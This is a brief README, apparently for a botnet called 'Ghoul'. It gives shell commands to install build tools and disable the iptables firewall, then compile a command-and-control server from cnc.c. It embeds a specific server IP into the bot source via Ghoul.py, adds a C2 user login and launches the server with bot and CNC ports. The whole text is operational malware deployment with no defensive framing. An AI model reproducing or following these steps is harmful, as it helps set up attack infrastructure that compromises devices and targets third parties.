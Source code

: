 # Ghoul
Put server Ip in bot_ghoul.c						 

yum install python-paramiko nano screen gcc perl wget lbzip unzip -y

service httpd restart 
service iptables stop

gcc cnc.c -o server -pthread

python Ghoul.py bot_ghoul.c 157.245.187.85 <---- Server IP

echo Edo Edo >>User_Info.txt

screen ./server [botport] [threads] [cncport]
